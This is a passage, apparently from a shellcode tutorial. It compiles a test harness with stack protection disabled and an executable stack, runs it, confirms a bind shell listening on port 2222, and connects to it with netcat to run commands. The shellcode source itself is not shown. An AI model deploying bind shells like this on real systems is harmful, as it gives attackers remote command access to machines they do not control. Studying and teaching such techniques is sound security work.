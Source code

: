 Let's compile and execute this program:
```console
kali@kali:/tmp$ gcc test_shellcode.c -o test_shellcode -m32 -fno-stack-protector -z execstack 
kali@kali:/tmp$ ./test_shellcode 
Shellcode Length:  117

```
We can use netcat to check if the port 2222 is open:
```console
kali@kali:/tmp$ netstat -antp | grep 2222
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
tcp        0      0 0.0.0.0:2222            0.0.0.0:*               LISTEN      1738/./test_shellcode
```

Finaly, netcat can be used to access our bind shell:
```console
kali@kali:/tmp$ nc -nv 127.0.0.1 2222
(UNKNOWN) [127.0.0.1] 2222 (?) open
id
uid=1000(kali) gid=1000(kali) groups=1000(kali),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),118(bluetooth),128(lpadmin),132(scanner)
whoami
kali
```

